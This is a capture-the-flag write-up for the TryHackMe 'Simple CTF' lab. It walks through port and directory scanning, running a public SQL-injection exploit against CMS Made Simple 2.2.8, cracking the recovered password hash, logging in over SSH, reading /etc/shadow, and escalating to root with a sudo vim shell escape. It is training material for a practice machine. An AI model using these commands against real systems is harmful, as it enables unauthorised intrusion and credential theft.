 # Simple CTF
Room - https://tryhackme.com/room/easyctf
# Enumeration
Start off with a port scan.
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -sV -A 10.10.101.28
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-13 17:45 EST
Nmap scan report for 10.10.101.28
Host is up (0.11s latency).                                                                               
Not shown: 997 filtered tcp ports (no-response)                                                           
PORT     STATE SERVICE VERSION                                                                            
21/tcp   open  ftp     vsftpd 3.0.3                                                                       
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                    
|_Can't get directory listing: TIMEOUT                                                                    
| ftp-syst:                                                                                               
|   STAT:                                                                                                 
| FTP server status:                                                                                      
|      Connected to ::ffff:10.6.27.72                                                                     
|      Logged in as ftp                                                                                   
|      TYPE: ASCII                                                                                        
|      No session bandwidth limit                                                                         
|      Session timeout in seconds is 300                                                                  
|      Control connection is plain text                                                                   
|      Data connections will be plain text                                                                
|      At session startup, client count was 1                                                             
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 294269149ecad917988c27723acda923 (RSA)
|   256 9bd165075108006198de95ed3ae3811c (ECDSA)
|_  256 12651b61cf4de575fef4e8d46e102af6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (90%), Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Adtran 424RG FTTH gateway (86%), Linux 2.6.32 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
A few things stand out immediately: 
- SSH running on a non standard port
- Anonymous FTP login allowed
- Default Apache2 page

Further discovery on web server
```
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.101.28/ /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Jan 13 18:08:24 2023
URL_BASE: http://10.10.101.28/
WORDLIST_FILES: /usr/share/wordlists/dirb/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.101.28/ ----
+ http://10.10.101.28/index.html (CODE:200|SIZE:11321)                                                   
+ http://10.10.101.28/robots.txt (CODE:200|SIZE:929)                                                     
+ http://10.10.101.28/server-status (CODE:403|SIZE:300)                                                  
==> DIRECTORY: http://10.10.101.28/simple/                                                               
```
/index.html - is the default apache landing page <br>
/robots.txt - is not really relevant <br>
/server-status - returns 403 forbidden <br>
/simple - is a hit and returns a webpage <br>
### ADD IMAGE <br>

Scrolling to the bottom it shows the software used to make the site and the version number. CMS Made Simple 2.2.8

### ADD IMAGE <br>

# Exploit
Searching https://www.exploit-db.com/ for "CMS Made Simple 2.2.8" comes up with https://www.exploit-db.com/exploits/46635 <br>
This version of the CMS Made Simple is vulnerable to SQL injections and this python script takes advantage of that. <br>

*Note: I was using python 3 and had to add the parenthesis for the print statements for the program to work*


```
python3.10 Downloads/46635.py -u http://10.10.101.28/simple

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d9
```
Running the hash through hash identifier shows it is a MD5 hash
```
$ hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 0c01f4468bd75d7a84c7eb73846e8d96

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))
```
Using hashcat to crack the MD5 hash
```
hashcat -O -m 20 -a 0 0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2 /home/kali/Desktop/rockyou.txt
```
Output
```
0c01f4468bd75d7a84c7eb73846e8d96:1dac0d92e9fa6bb2:secret
```
Now we have credentials to work with. <br> 
- Username: mitch <br>
- Password: secret
# Access
From the directoy enumeration earlier /simple/admin/login.php was found
### ADD IMAGE

using the credentials to log in presents a control panel

### ADD IMAGE
*Theres not much here that is beneficial to the attack*

Moving on to trying to use the credentials on SSH

```
$ ssh mitch@10.10.101.28 -p 2222  
mitch@10.10.101.28's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
```
Read the file on the home directory to find the first flag.

# Privilege Escalation
First we gotta find out what privileges mitch has. 

Running `sudo -l` shows that mitch can run vim with sudo privileges.

`sudo vim /etc/shadow` allows us to read encrpyted passwords from accounts on the machine
copying the encrypted password from /etc/shadow and attempting to crack it could be a potential option, but there is a easier way. <br>

https://gtfobins.github.io/gtfobins/vim/#sudo

Using `sudo vim -c ':!/bin/sh'` allows us to use vim with sudo to get a root shell.
```# ^[[2;2Rwhoami 
/bin/sh: 1: not found
/bin/sh: 1: 2Rwhoami: not found
# whoami
root

# cd /root      
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
# 
```
Navigate to the home folder of root and read the root.txt file


